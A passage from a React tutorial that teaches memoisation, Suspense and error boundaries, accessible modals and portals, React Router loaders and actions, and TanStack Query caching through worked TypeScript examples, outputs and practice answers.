It requires code to follow the Rules of React (pure rendering, no mutation of props/state), which the `eslint-plugin-react-hooks` compiler rules check. With the compiler on, reach for manual memoisation only as an escape hatch.

**Common mistakes:**

- Wrapping everything in `useMemo`/`useCallback` "for performance": it adds complexity and memory, and does nothing unless something depends on the stable reference.
- `memo` on a component whose props include inline objects, arrays or functions (it never skips).
- Missing dependencies in `useMemo`/`useCallback` (stale values).
- Optimising without measuring in a **production build** (development mode and Strict Mode are slower by design).

### Practice

1. In the first example, `ProductList` also receives `products={PRODUCTS}`. Why is that prop stable, and what would break `memo` if you wrote `products={PRODUCTS.filter(p => p.pricePaise > 0)}` instead? How would you fix it?

<details>
<summary><b>Answer</b></summary>

`PRODUCTS` is a module-level constant: the **same array object** every render, so `Object.is` says it's unchanged. `PRODUCTS.filter(...)` creates a **new array** on every render, so `memo` would see a changed prop every time and re-render the list on every keystroke. Fix: compute it with `useMemo(() => PRODUCTS.filter(...), [])` (or with the real dependencies), move the filtering inside `ProductList`, or let the React Compiler memoise it.

</details>

**Learn more:** [react.dev: memo](https://react.dev/reference/react/memo) · [react.dev: useMemo](https://react.dev/reference/react/useMemo) · [React Compiler](https://react.dev/learn/react-compiler) · [React DevTools Profiler](https://react.dev/reference/react/Profiler)

---

## 19. Suspense, lazy, use() and Error Boundaries

### Theory

> **In simple words:** two React features handle "not ready" and "went wrong" **declaratively**, the way `try/catch` does for code. **`<Suspense fallback={<Spinner/>}>`** shows a fallback while something inside is **waiting** (lazy-loaded code, or data read with `use(promise)`). An **error boundary** shows a fallback when something inside **throws** while rendering, instead of the whole app going blank.

| Feature | What it does |
|---|---|
| `lazy(() => import("./Chart"))` | Loads a component's code only when it's first rendered (**code splitting**: smaller initial bundle) |
| `<Suspense fallback={...}>` | Shows the fallback while any child is suspended (loading); nest several for finer loading states |
| `use(promise)` (React 19) | Reads a promise's value during render; suspends until it resolves. The promise must be **created outside** the render (cached, from a loader, framework or parent), not inside the component |
| `use(Context)` | Like `useContext`, but can be called inside `if`s and loops |
| Error boundary | A component that catches render errors in its children and shows a fallback. Write one with a class (`getDerivedStateFromError`) or use the **`react-error-boundary`** package |

**What error boundaries do not catch:** errors in **event handlers** (use `try/catch` there), in async code (`setTimeout`, promises you didn't pass to `use`), and in the boundary itself. Place boundaries around independent parts of the page (a widget, a route) so one failure doesn't take down everything, and log errors to a monitoring service (Sentry) in `onError`.

**Frameworks build on these**: Next.js `loading.tsx` and `error.tsx` files are Suspense and error boundaries per route; React Router and TanStack Query integrate with both.

### React

**Code splitting with `lazy` + `Suspense`.** The chart module is a separate file, loaded only when the user opens the analytics tab:

```tsx
// @filename: SalesChart.tsx
export default function SalesChart({ days }: { days: number }) {
  return <figure>📈 Sales for the last {days} days</figure>;
}
```

```tsx
import { lazy, Suspense, useState, use, Component, act } from "react";
import type { ReactNode, ErrorInfo } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

const SalesChart = lazy(() => import("./SalesChart.js"));

function Dashboard() {
  const [tab, setTab] = useState<"orders" | "analytics">("orders");
  return (
    <div>
      <button onClick={() => setTab("analytics")}>Analytics</button>
      {tab === "orders" ? <p>12 new orders</p> : (
        <Suspense fallback={<p>Loading chart…</p>}>
          <SalesChart days={7} />
        </Suspense>
      )}
    </div>
  );
}

render(<Dashboard />);
fireEvent.click(screen.getByText("Analytics"));
console.log("right after click:", document.querySelector("p, figure")!.textContent);
console.log("after loading:   ", (await screen.findByRole("figure")).textContent);
```

**Output:**

```text
right after click: Loading chart…
after loading:    📈 Sales for the last 7 days
```

(`findBy...` queries wait until the element appears, which is how you test async UI. When rendering something that suspends on data, tests wrap the render in `await act(async () => ...)`.)

**Reading data with `use(promise)`.** The promise is created **outside** the component (as a loader or cache would) and passed in; the component reads it as if it were synchronous:

```tsx
type Review = { author: string; stars: number };
function fetchReviews(sku: string): Promise<Review[]> {
  return new Promise(resolve => setTimeout(() => resolve([{ author: "Meera", stars: 5 }, { author: "Kabir", stars: 4 }]), 30));
}

function Reviews({ reviewsPromise }: { reviewsPromise: Promise<Review[]> }) {
  const reviews = use(reviewsPromise);                 // suspends until resolved
  const avg = reviews.reduce((s, r) => s + r.stars, 0) / reviews.length;
  return <section aria-label="reviews">{reviews.length} reviews · ★ {avg.toFixed(1)}</section>;
}

const reviewsPromise = fetchReviews("TEA-250");        // start fetching early, outside render
await act(async () => {
  render(
    <Suspense fallback={<p>Loading reviews…</p>}>
      <Reviews reviewsPromise={reviewsPromise} />
    </Suspense>,
  );
});
console.log(document.body.textContent);
console.log((await screen.findByLabelText("reviews")).textContent);
```

**Output:**

```text
Loading reviews…
2 reviews · ★ 4.5
```

**Error boundaries.** A small class-based boundary (the only thing that still needs a class component) and what happens when a child throws:

```tsx
class ErrorBoundary extends Component<{ fallback: (error: Error, reset: () => void) => ReactNode; children: ReactNode }, { error: Error | null }> {
  state = { error: null as Error | null };
  static getDerivedStateFromError(error: Error) {
    return { error };                                   // switch to the fallback UI
  }
  componentDidCatch(error: Error, info: ErrorInfo) {
    console.log("report to monitoring:", error.message, "| in component stack:", info.componentStack?.includes("PriceTag"));
  }
  render() {
    return this.state.error ? this.props.fallback(this.state.error, () => this.setState({ error: null })) : this.props.children;
  }
}

function PriceTag({ pricePaise }: { pricePaise: number | null }) {
  if (pricePaise === null) throw new Error("Price missing for this product");
  return <b>₹{pricePaise / 100}</b>;
}

function ProductPage() {
  const [price, setPrice] = useState<number | null>(null);
  return (
    <main>
      <h1>Masala chai</h1>
      <ErrorBoundary fallback={(err, reset) => (
        <div role="alert">⚠️ {err.message} <button onClick={() => { setPrice(18000); reset(); }}>Retry</button></div>
      )}>
        <PriceTag pricePaise={price} />
      </ErrorBoundary>
      <footer>Free delivery above ₹499</footer>
    </main>
  );
}

const originalError = console.error;
console.error = () => {};                                   // React also logs caught errors; keep the demo output clean
render(<ProductPage />);
console.error = originalError;
console.log(document.querySelector("main")!.textContent);
fireEvent.click(screen.getByText("Retry"));
console.log(document.querySelector("main")!.textContent);
```

**Output:**

```text
report to monitoring: Price missing for this product | in component stack: true
Masala chai⚠️ Price missing for this product RetryFree delivery above ₹499
Masala chai₹180Free delivery above ₹499
```

Only the price area failed; the heading and footer kept working, and "Retry" recovered. In real apps the **`react-error-boundary`** package gives you `<ErrorBoundary FallbackComponent={...} onError={...} resetKeys={[...]}>` without writing a class.

**Common mistakes:**

- Creating the promise **inside** the component that calls `use()` (a new promise every render → it suspends forever). Create it in a loader, a parent, a cache, or use a data library.
- One Suspense boundary for the whole app (everything shows a spinner for any small load). Place boundaries where a loading state makes sense to users.
- Expecting error boundaries to catch errors in event handlers or `setTimeout`.
- `lazy()` called inside a component (it must be at module level).

### Practice

1. Wrap `<Reviews>` in both an error boundary and a Suspense boundary, and make `fetchReviews` reject for SKU `"BROKEN"`. What does the user see for `"TEA-250"` and for `"BROKEN"`? (Describe; order of the boundaries matters.)

<details>
<summary><b>Answer</b></summary>

Use `<ErrorBoundary fallback={...}><Suspense fallback={<p>Loading reviews…</p>}><Reviews .../></Suspense></ErrorBoundary>`. For `"TEA-250"` the user sees "Loading reviews…", then the reviews. For `"BROKEN"` they see "Loading reviews…", then, when the promise **rejects**, `use()` throws the rejection error during render and the nearest **error boundary** shows its fallback. The error boundary goes **outside** Suspense (or at least around the component) so it can catch that error; a boundary placed only around unrelated parts wouldn't help.

</details>

**Learn more:** [react.dev: Suspense](https://react.dev/reference/react/Suspense) · [react.dev: lazy](https://react.dev/reference/react/lazy) · [react.dev: use](https://react.dev/reference/react/use) · [react-error-boundary](https://github.com/bvaughn/react-error-boundary)

---

## 20. Accessibility, Portals and Modals

### Theory

> **In simple words:** **accessibility (a11y)** means everyone can use your app: people using a keyboard only, screen readers, zoom, voice control, or with colour-blindness. In React it mostly comes down to using the **right HTML elements**, giving everything a **name**, managing **focus** when things appear and disappear, and testing with the keyboard. It's also a legal requirement in many countries (the European Accessibility Act has applied since June 2025) and it improves usability for everyone.

**The essentials:**

| Rule | In practice |
|---|---|
| Use semantic HTML | `<button>` for actions, `<a href>` for navigation, `<nav>`, `<main>`, `<header>`, headings in order, `<ul>` for lists, `<table>` for tables |
| Every control has an accessible name | `<label htmlFor>` for inputs; `aria-label` for icon-only buttons (`aria-label="Close"`) |
| Images | Meaningful: `alt="Masala chai pack"`; decorative: `alt=""` |
| Keyboard | Everything clickable is focusable and works with Enter/Space; visible focus styles; logical tab order; no keyboard traps |
| Announce changes | `role="alert"` for errors, `role="status"`/`aria-live="polite"` for updates like "Added to cart" |
| State | `aria-expanded`, `aria-selected`, `aria-checked`, `aria-invalid` + `aria-describedby` for field errors |
| Colour | Contrast ≥ 4.5:1 for text; never colour alone to convey meaning |
| Motion | Respect `prefers-reduced-motion` |
| First rule of ARIA | Don't use ARIA if a native element does the job |

**Testing Library encourages accessibility:** its preferred queries are `getByRole("button", { name: "Pay" })` and `getByLabelText("Email")`, which only work if your UI is accessible. Add **eslint-plugin-jsx-a11y**, check with axe DevTools / Lighthouse, and try your app with only a keyboard and a screen reader (VoiceOver, NVDA).

**Portals** render a component's output into a **different DOM node** (usually `document.body`), while it stays in the same place in the **React** tree (so it keeps context and events bubble through React parents). They're used for modals, toasts, tooltips and dropdowns, to escape `overflow: hidden` and stacking (`z-index`) problems.

**Modals done right** (2026): prefer the native **`<dialog>`** element with `showModal()`: it traps focus, closes on Escape, makes the rest of the page inert and has proper semantics. Otherwise use a tested library (Radix UI, React Aria, Headless UI). When a modal closes, return focus to the button that opened it.

### React

**Accessible names, roles and live regions**, checked with the same queries screen readers rely on:

```tsx
import { useState, useRef, useEffect } from "react";
import { createPortal } from "react-dom";
import { render, screen, fireEvent } from "@testing-library/react";

function AddToCart() {
  const [qty, setQty] = useState(0);
  const [error, setError] = useState("");
  return (
    <form onSubmit={e => e.preventDefault()}>
      <label htmlFor="pin">Delivery PIN code</label>
      <input id="pin" aria-invalid={!!error} aria-describedby={error ? "pin-error" : undefined}
             onBlur={e => setError(/^\d{6}$/.test(e.target.value) ? "" : "Enter a 6-digit PIN")} />
      {error && <p id="pin-error" role="alert">{error}</p>}
      <button type="button" aria-label="Increase quantity" onClick={() => setQty(q => q + 1)}>＋</button>
      <p role="status">{qty > 0 ? `${qty} in cart` : ""}</p>
    </form>
  );
}

render(<AddToCart />);
const pin = screen.getByLabelText("Delivery PIN code");                 // found via its <label>
fireEvent.blur(pin, { target: { value: "4110" } });
console.log(screen.getByRole("alert").textContent, "| invalid:", pin.getAttribute("aria-invalid"), "| described by:", pin.getAttribute("aria-describedby"));
fireEvent.click(screen.getByRole("button", { name: "Increase quantity" })); // icon button found by its aria-label
console.log(screen.getByRole("status").textContent);
```

**Output:**

```text
Enter a 6-digit PIN | invalid: true | described by: pin-error
1 in cart
```

**A portal**: the toast is rendered into `document.body`, outside the card's DOM, but it's still controlled by the card's React state:

```tsx
function Toast({ message }: { message: string }) {
  return createPortal(<div role="status" className="toast">{message}</div>, document.body);
}

function ProductCard() {
  const [added, setAdded] = useState(false);
  return (
    <div className="card" style={{ overflow: "hidden" }}>
      <button onClick={() => setAdded(true)}>Add chai</button>
      {added && <Toast message="Added to cart ✓" />}
    </div>
  );
}

const { container } = render(<ProductCard />);
fireEvent.click(screen.getByText("Add chai"));
const toast = document.querySelector(".toast")!;
console.log("toast inside the card's DOM:", container.contains(toast), "| direct child of body:", toast.parentElement === document.body);
```

**Output:**

```text
toast inside the card's DOM: false | direct child of body: true
```

**An accessible modal with native `<dialog>`**: open with `showModal()`, close on Escape (the browser does it) or a button, and return focus to the trigger. (jsdom doesn't implement `showModal`, so the test gives it a tiny stand-in; real browsers provide it.)

```tsx
if (!HTMLDialogElement.prototype.showModal) {
  HTMLDialogElement.prototype.showModal = function () { this.setAttribute("open", ""); };
  HTMLDialogElement.prototype.close = function () { this.removeAttribute("open"); this.dispatchEvent(new Event("close")); };
}

function ConfirmDelete({ onConfirm }: { onConfirm: () => void }) {
  const dialogRef = useRef<HTMLDialogElement>(null);
  const triggerRef = useRef<HTMLButtonElement>(null);
  const [open, setOpen] = useState(false);

  useEffect(() => {
    const dialog = dialogRef.current!;
    if (open) dialog.showModal();
    else if (dialog.hasAttribute("open")) dialog.close();
  }, [open]);

  return (
    <>
      <button ref={triggerRef} onClick={() => setOpen(true)}>Delete address</button>
      <dialog ref={dialogRef} aria-labelledby="dlg-title" onClose={() => { setOpen(false); triggerRef.current?.focus(); }}>
        <h2 id="dlg-title">Delete this address?</h2>
        <button autoFocus onClick={() => setOpen(false)}>Cancel</button>
        <button onClick={() => { onConfirm(); setOpen(false); }}>Delete</button>
      </dialog>
    </>
  );
}

render(<ConfirmDelete onConfirm={() => console.log("address deleted")} />);
fireEvent.click(screen.getByText("Delete address"));
const dialog = document.querySelector("dialog")!;
console.log("open:", dialog.hasAttribute("open"), "| labelled:", screen.getByRole("dialog", { name: "Delete this address?" }) === dialog);
fireEvent.click(screen.getByText("Delete"));
console.log("open:", dialog.hasAttribute("open"), "| focus back on trigger:", document.activeElement === screen.getByText("Delete address"));
```

**Output:**

```text
open: true | labelled: true
address deleted
open: false | focus back on trigger: true
```

**Common mistakes:**

- `<div onClick>` as a button; `<span>` "links" without `href`.
- Icon-only buttons with no `aria-label`; inputs with a placeholder but no label.
- Modals that don't trap focus, don't close with Escape, or lose focus when closed.
- Error messages shown only in red, with no text announcement (`role="alert"`).
- Adding ARIA roles that contradict native semantics (`<button role="link">`).

### Practice

1. Make this accessible: `<div className="icon" onClick={toggleMenu}>☰</div>` which opens a `<ul>` menu. What element, attributes and keyboard behaviour do you need?

<details>
<summary><b>Answer</b></summary>

Use a real button: `<button type="button" aria-label="Main menu" aria-expanded={open} aria-controls="main-menu" onClick={toggleMenu}>☰</button>` and give the list `id="main-menu"` (rendered only or shown only when open, inside a `<nav aria-label="Main">`). A `<button>` is focusable and works with Enter/Space for free; `aria-expanded` tells screen readers whether the menu is open. Close it on Escape and when focus leaves, and return focus to the button. For complex menus (arrow-key navigation, typeahead) use a tested primitive like Radix UI or React Aria.

</details>

---

### ✅ Part 3 checkpoint

Without looking, can you:

- [ ] Move complex state logic into a typed reducer and test it as a pure function?
- [ ] Share data with context, guard it with a custom hook, split contexts, and build compound components?
- [ ] Extract reusable logic into custom hooks, including `useSyncExternalStore` subscriptions?
- [ ] Explain render → reconcile → commit, why children re-render, how state is tied to position, and how `key` resets state?
- [ ] Use `memo`, `useMemo` and `useCallback` only where they help, and explain what the React Compiler changes?
- [ ] Split code with `lazy` + `Suspense`, read promises with `use()`, and catch render errors with error boundaries?
- [ ] Build accessible forms, portals and modals, and query UI by role and label?

**Learn more:** [MDN: Accessibility](https://developer.mozilla.org/en-US/docs/Web/Accessibility) · [MDN: `<dialog>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/dialog) · [react.dev: createPortal](https://react.dev/reference/react-dom/createPortal) · [WAI-ARIA Authoring Practices](https://www.w3.org/WAI/ARIA/apg/) · [Testing Library: queries priority](https://testing-library.com/docs/queries/about#priority)

---

# Part 4 — Moderate: Building Real Apps

> **Goal:** Add routing with loaders and actions, cache server data with TanStack Query, build production forms with React 19 actions and React Hook Form, manage global state and test like a user.  
> **You need:** Parts 1–3.

---

## 21. Routing with React Router: Pages, URLs, Loaders and Actions

### Theory

> **In simple words:** a **router** maps URLs to screens: `/` shows the home page, `/products/42` shows product 42, `/cart` shows the cart. It changes the page **without a full reload**, keeps the browser's back/forward buttons working, and lets users bookmark and share any screen. **React Router** is the most-used router; version 8 (2026) builds on v7, where routes can also **load data** (`loader`) and **handle form submissions** (`action`) before the page renders.

**Core pieces:**

| Piece | Purpose |
|---|---|
| Route objects `{ path, Component, loader, action, children, ErrorBoundary }` | Describe the app's pages |
| `createBrowserRouter(routes)` + `<RouterProvider router={...} />` | Set up routing in the browser (import `RouterProvider` from `react-router/dom`) |
| `<Link to="/cart">`, `<NavLink>` | Navigate without reloading (`NavLink` knows if it's active) |
| `<Outlet />` | Where a parent layout renders the matching child route |
| `:id` segments + `useParams()` | Dynamic URLs like `/products/:sku` |
| `useSearchParams()` | Query strings like `?q=tea&page=2` (URL state) |
| `useNavigate()` | Navigate from code (after saving, logging in) |
| `loader` + `useLoaderData()` | Fetch data **before** rendering the route, in parallel for nested routes (no waterfalls) |
| `action` + `<Form method="post">` | Handle form submissions; data reloads automatically afterwards |
| `ErrorBoundary` / `errorElement` | Per-route error UI (404s, failed loaders) |

**Three ways to use React Router:** **declarative** (`<BrowserRouter>` + `<Routes>`: just URL matching), **data mode** (`createBrowserRouter` + loaders/actions, shown here), and **framework mode** (a Vite plugin with file-based routes, server rendering, type-safe route modules; the successor of Remix). Alternatives: **TanStack Router** (fully type-safe routes and search params) and **Next.js** App Router (Part 5).

**URL state is underrated:** put filters, search queries, tabs and pagination in the URL (`useSearchParams`). Reloading, sharing and the back button then just work.

### React

A small shop: a root layout with navigation, a product list with a search param, a product page with a **loader**, a 404, and a "review" form with an **action**. In the browser you'd use `createBrowserRouter`; tests use `createMemoryRouter`, which keeps the URL in memory:

```tsx
import { createMemoryRouter, RouterProvider, Link, NavLink, Outlet, Form, useLoaderData, useParams, useSearchParams, useRouteError, isRouteErrorResponse, data, redirect } from "react-router";
import { render, screen, fireEvent } from "@testing-library/react";
import { act } from "react";

type Product = { sku: string; name: string; pricePaise: number };
const DB: Product[] = [
  { sku: "TEA-250", name: "Masala chai", pricePaise: 18000 },
  { sku: "MUG-01", name: "Steel mug", pricePaise: 34900 },
];
const reviews: Record<string, string[]> = { "TEA-250": ["Lovely!"] };

function Layout() {
  return (
    <div>
      <nav>
        <NavLink to="/" end>Home</NavLink> <NavLink to="/products">Products</NavLink>
      </nav>
      <main><Outlet /></main>
    </div>
  );
}

function Products() {
  const [params, setParams] = useSearchParams();
  const q = params.get("q") ?? "";
  const list = DB.filter(p => p.name.toLowerCase().includes(q.toLowerCase()));
  return (
    <section>
      <input aria-label="search" value={q} onChange={e => setParams(e.target.value ? { q: e.target.value } : {})} />
      <ul>{list.map(p => <li key={p.sku}><Link to={`/products/${p.sku}`}>{p.name}</Link></li>)}</ul>
    </section>
  );
}

async function productLoader({ params }: { params: { sku?: string } }) {
  const product = DB.find(p => p.sku === params.sku);
  if (!product) throw data("Product not found", { status: 404 });
  return { product, reviews: reviews[product.sku] ?? [] };
}

async function reviewAction({ request, params }: { request: Request; params: { sku?: string } }) {
  const form = await request.formData();
  const text = String(form.get("text") ?? "").trim();
  if (text) (reviews[params.sku!] ??= []).push(text);
  return redirect(`/products/${params.sku}`);
}

function ProductPage() {
  const { product, reviews } = useLoaderData<typeof productLoader>();
  const { sku } = useParams();
  return (
    <article>
      <h1>{product.name} ({sku})</h1>
      <p>₹{product.pricePaise / 100} · {reviews.length} review(s): {reviews.join(" / ")}</p>
      <Form method="post">
        <input name="text" aria-label="review" />
        <button type="submit">Post review</button>
      </Form>
    </article>
  );
}

function RouteError() {
  const error = useRouteError();
  return <p role="alert">{isRouteErrorResponse(error) ? `${error.status}: ${error.data}` : "Something went wrong"}</p>;
}

const routes = [{
  path: "/",
  Component: Layout,
  ErrorBoundary: RouteError,
  children: [
    { index: true, element: <h1>Welcome to Chai Point</h1> },
    { path: "products", Component: Products },
    { path: "products/:sku", Component: ProductPage, loader: productLoader, action: reviewAction },
  ],
}];

const router = createMemoryRouter(routes, { initialEntries: ["/"] });
render(<RouterProvider router={router} />);
const where = () => `${router.state.location.pathname}${router.state.location.search}`;
const mainText = () => document.querySelector("main")?.textContent ?? document.body.textContent;

console.log(where(), "→", mainText());
fireEvent.click(screen.getByText("Products"));
fireEvent.change(await screen.findByLabelText("search"), { target: { value: "chai" } });
console.log(where(), "→", mainText(), "| active link:", document.querySelector("nav a.active")?.textContent);
fireEvent.click(screen.getByText("Masala chai"));
await screen.findByRole("heading", { name: /Masala chai/ });
console.log(where(), "→", mainText());
fireEvent.change(screen.getByLabelText("review"), { target: { value: "Perfect with rain." } });
fireEvent.click(screen.getByText("Post review"));
await screen.findByText(/2 review/);
console.log(where(), "→", screen.getByText(/review\(s\)/).textContent);
await act(() => router.navigate("/products/NOPE"));      // navigate from code (act: let React finish updating)
await screen.findByRole("alert");
console.log(where(), "→", screen.getByRole("alert").textContent);
```

**Output:**

```text
/ → Welcome to Chai Point
/products?q=chai → Masala chai | active link: Products
/products/TEA-250 → Masala chai (TEA-250)₹180 · 1 review(s): Lovely!Post review
/products/TEA-250 → ₹180 · 2 review(s): Lovely! / Perfect with rain.
/products/NOPE → 404: Product not found
```

Notice: the search text lives in the **URL** (`?q=chai`), the product page's data came from its **loader** before rendering, the review form posted to the route's **action**, and the unknown product was handled by the route's **error boundary**.

**In the browser**, the same routes are mounted like this:

<!-- no-run (browser entry file) -->
```tsx
import { createBrowserRouter } from "react-router";
import { RouterProvider } from "react-router/dom";
import { createRoot } from "react-dom/client";

const browserRouter = createBrowserRouter(routes);
createRoot(document.getElementById("root")!).render(<RouterProvider router={browserRouter} />);
```

**Common mistakes:**

- Using `<a href>` for internal links (full page reload, state lost). Use `<Link>`.
- Fetching data in `useEffect` inside route components when loaders are available (waterfalls, loading flicker).
- Keeping filters or selected tabs only in component state, so reload/back/share loses them.
- Forgetting a 404 route or route-level error boundaries.
- Still importing from `react-router-dom` (removed in v8; import from `react-router`, and `RouterProvider` from `react-router/dom` in the browser).

### Practice

1. Add a `/cart` route whose loader returns `{ items: 2 }` and whose component shows "Cart (2)", plus a `<NavLink to="/cart">` in the layout. Navigate to it with `router.navigate` and print the main text.

<details>
<summary><b>Answer</b></summary>

```tsx
function CartPage() {
  const { items } = useLoaderData<{ items: number }>();
  return <h1>Cart ({items})</h1>;
}
routes[0]!.children.push({ path: "cart", Component: CartPage, loader: async () => ({ items: 2 }) } as never);

const router2 = createMemoryRouter(routes, { initialEntries: ["/"] });
render(<RouterProvider router={router2} />);
await act(() => router2.navigate("/cart"));
console.log((await screen.findByRole("heading", { name: /Cart/ })).textContent);
```

**Output:**

```text
Cart (2)
```

(In a real app you'd add the route to the `routes` array directly; `as never` just lets this demo push a route with a different shape into the existing array.)

</details>

**Learn more:** [React Router: Data mode](https://reactrouter.com/start/data/installation) · [React Router: Upgrading to v8](https://reactrouter.com/upgrading/v7) · [TanStack Router](https://tanstack.com/router/latest)

---

## 22. Server State with TanStack Query

### Theory

> **In simple words:** data from your server (products, orders, the user's profile) is different from UI state: it lives **on the server**, other people can change it, and many components need it. **TanStack Query** (formerly React Query) is a **cache for server data**: you describe *what* to fetch with a **query key**, and it handles loading and error states, caching, deduplicating identical requests, retries, refetching when data gets stale, and updating the cache after you change something (**mutations**).

**What it gives you over `useEffect` + `fetch`:**

| Problem | TanStack Query |
|---|---|
| Loading/error boilerplate in every component | `const { data, isPending, error } = useQuery(...)` |
| Two components fetch the same data → two requests | Same `queryKey` → one request, shared cache |
| Race conditions when inputs change | Built in (results are stored per key) |
| Stale data after the user comes back to the tab | Refetch on window focus / reconnect, `staleTime` |
| Updating lists after a create/delete | `invalidateQueries({ queryKey })` or `setQueryData` |
| Pagination / infinite scroll | `placeholderData: keepPreviousData`, `useInfiniteQuery` |
| Optimistic UI | `onMutate` + rollback in `onError` |

**Vocabulary:**

- **Query key**: an array that identifies the data, like `["products", { q: "tea" }]`. Everything the query depends on goes in the key; when the key changes, it fetches (or uses the cache for) the new key.
- **`staleTime`**: how long data counts as fresh (default 0: considered stale immediately, so it refetches in the background on mount/focus). **`gcTime`**: how long unused data stays in the cache (default 5 minutes).
- **Mutation**: a change (`POST`, `PUT`, `DELETE`) with `useMutation`; afterwards you **invalidate** related queries so they refetch.

In framework apps (Next.js, React Router), you often load data on the server or in loaders; TanStack Query is still common for client-side interactivity, polling and mutations. **SWR** is a lighter alternative with the same ideas.

### React

A fake API (with a request counter) and a `QueryClient`:

```tsx
import { QueryClient, QueryClientProvider, useQuery, useMutation, useQueryClient } from "@tanstack/react-query";
import { useState } from "react";
import type { ReactNode } from "react";
import { render, screen, fireEvent } from "@testing-library/react";

type Product = { sku: string; name: string; stock: number };
const serverDb: Product[] = [{ sku: "TEA-250", name: "Masala chai", stock: 5 }, { sku: "MUG-01", name: "Steel mug", stock: 0 }];
let requests = 0;
const sleep = (ms: number) => new Promise(r => setTimeout(r, ms));

const api = {
  async listProducts(q: string): Promise<Product[]> {
    requests++;
    await sleep(20);
    return serverDb.filter(p => p.name.toLowerCase().includes(q.toLowerCase())).map(p => ({ ...p }));
  },
  async restock(sku: string): Promise<Product> {
    await sleep(20);
    const p = serverDb.find(x => x.sku === sku)!;
    p.stock += 10;
    return { ...p };
  },
};

function makeClient() {
  return new QueryClient({ defaultOptions: { queries: { retry: false, staleTime: 60_000 } } });
}
function Providers({ client, children }: { client: QueryClient; children: ReactNode }) {
  return <QueryClientProvider client={client}>{children}</QueryClientProvider>;
}
console.log("ready");
```

**Output:**

```text
ready
```

**Queries: shared cache and deduplication.** Two components ask for the same key at the same time: **one** request. Changing the search key fetches once per new key, and going back to an old key is served from the cache:

```tsx
function useProducts(q: string) {
  return useQuery({ queryKey: ["products", { q }], queryFn: () => api.listProducts(q) });
}

function ProductCount({ q }: { q: string }) {
  const { data } = useProducts(q);
  return <span>{data ? `${data.length} found` : "…"}</span>;
}

function ProductList() {
  const [q, setQ] = useState("");
  const { data, isPending, isError, error } = useProducts(q);
  return (
    <div>
      <input aria-label="q" value={q} onChange={e => setQ(e.target.value)} />
      <ProductCount q={q} />
      {isPending ? <p>Loading…</p> : isError ? <p>{error.message}</p> : (
        <ul>{data.map(p => <li key={p.sku}>{p.name} ({p.stock})</li>)}</ul>
      )}
    </div>
  );
}

const client = makeClient();
render(<Providers client={client}><ProductList /></Providers>);
await screen.findByText("Masala chai (5)");
console.log("both components loaded, requests:", requests);
fireEvent.change(screen.getByLabelText("q"), { target: { value: "mug" } });
await screen.findByText("Steel mug (0)");
fireEvent.change(screen.getByLabelText("q"), { target: { value: "" } });
await screen.findByText("Masala chai (5)");
console.log("after 'mug' and back to '', requests:", requests, "| cached keys:", client.getQueryCache().getAll().map(q => JSON.stringify(q.queryKey)));
```

**Output:**

```text
both components loaded, requests: 1
after 'mug' and back to '', requests: 2 | cached keys: [ '["products",{"q":""}]', '["products",{"q":"mug"}]' ]
```

**Mutations and invalidation**: restocking the mug on the "server", then invalidating the product queries so the list refetches and shows fresh data:

```tsx
function RestockButton({ sku }: { sku: string }) {
  const queryClient = useQueryClient();
  const mutation = useMutation({
    mutationFn: () => api.restock(sku),
    onSuccess: () => queryClient.invalidateQueries({ queryKey: ["products"] }),   // every key starting with "products"
  });
  return (
    <button onClick={() => mutation.mutate()} disabled={mutation.isPending}>
      {mutation.isPending ? "Restocking…" : `Restock ${sku}`}
    </button>
  );
}

render(<Providers client={client}><RestockButton sku="MUG-01" /><ProductList /></Providers>);
await screen.findByText("Steel mug (0)");                        // from the cache: no new request
const before = requests;
fireEvent.click(screen.getByText("Restock MUG-01"));
console.log((await screen.findByText("Restocking…")).textContent);
await screen.findByText("Steel mug (10)");
console.log("list updated:", [...document.querySelectorAll("li")].map(li => li.textContent), "| refetches:", requests - before);
```

**Output:**

```text
Restocking…
list updated: [ 'Masala chai (5)', 'Steel mug (10)' ] | refetches: 1
```

Invalidation marked **both** cached product queries stale; the one on screen (`q: ""`) refetched right away, and the other will refetch when it's used again.

**Common mistakes:**

- Leaving a dependency out of the query key (`queryKey: ["products"]` while the function uses `q`): different searches share one cache entry.
- Copying query data into `useState` (it goes stale); use the query's `data` directly and derive from it.
- Creating the `QueryClient` inside a component that re-renders (the cache is lost). Create it once (module level or `useState(() => new QueryClient())`).
- Using TanStack Query for purely local UI state (it's for **server** state).
- `staleTime: 0` everywhere, then being surprised by refetches on every mount and focus; choose a sensible `staleTime` per data type.

### Practice

1. Write a `useProduct(sku)` query with key `["product", sku]` and `enabled: !!sku` (so it doesn't run until a SKU is chosen). Why is `enabled` useful, and what does `isPending` show while it's disabled?

<details>
<summary><b>Answer</b></summary>

<!-- no-run (sketch) -->
```tsx
function useProduct(sku: string | null) {
  return useQuery({
    queryKey: ["product", sku],
    queryFn: () => api.getProduct(sku!),
    enabled: !!sku,                // don't fetch until we have a SKU
  });
}
```

`enabled` makes **dependent queries** possible: wait for a user selection, a route param, or the result of another query (e.g. fetch orders only after the user is known). While disabled and without cached data, the query stays `isPending` (status `"pending"`) with `fetchStatus: "idle"`, so show a prompt ("Choose a product") rather than a spinner, e.g. by checking `isLoading` (pending **and** fetching) instead of `isPending`.

</details>

**Learn more:** [TanStack Query docs](https://tanstack.com/query/latest/docs/framework/react/overview) · [TkDodo's blog: Practical React Query](https://tkdodo.eu/blog/practical-react-query) · [SWR](https://swr.vercel.app/)

---

## 23. Forms in Production: React 19 Actions, Optimistic UI and React Hook Form + Zod

### Theory

> **In simple words:** real forms need more than `onChange`: showing "Saving…" while the request runs, disabling the button to prevent double submits, showing server errors next to fields, validating with the same rules as the server, and sometimes updating the UI **before** the server answers (optimistic UI). React 19 adds **actions** for this, and **React Hook Form** + **Zod** remain the standard for large client-side forms.

**React 19 form tools:**

| API | What it does |
|---|---|
| `<form action={fn}>` | Calls `fn(formData)` on submit (no `preventDefault` needed); the form resets after success |
| `useActionState(action, initialState)` | Wraps an action and gives you `[state, formAction, isPending]`: the last result (e.g. errors) and whether it's running |
| `useFormStatus()` | Inside a form's child (e.g. a submit button): `{ pending }` for the parent form |
| `useOptimistic(state, updateFn)` | Show the expected result immediately while the action runs; it falls back to the real state when done |
| `useTransition` | Mark any async update as a transition to get `isPending` |

Actions work the same whether `fn` runs on the client or is a **Server Function** (Next.js `"use server"`, Part 5).

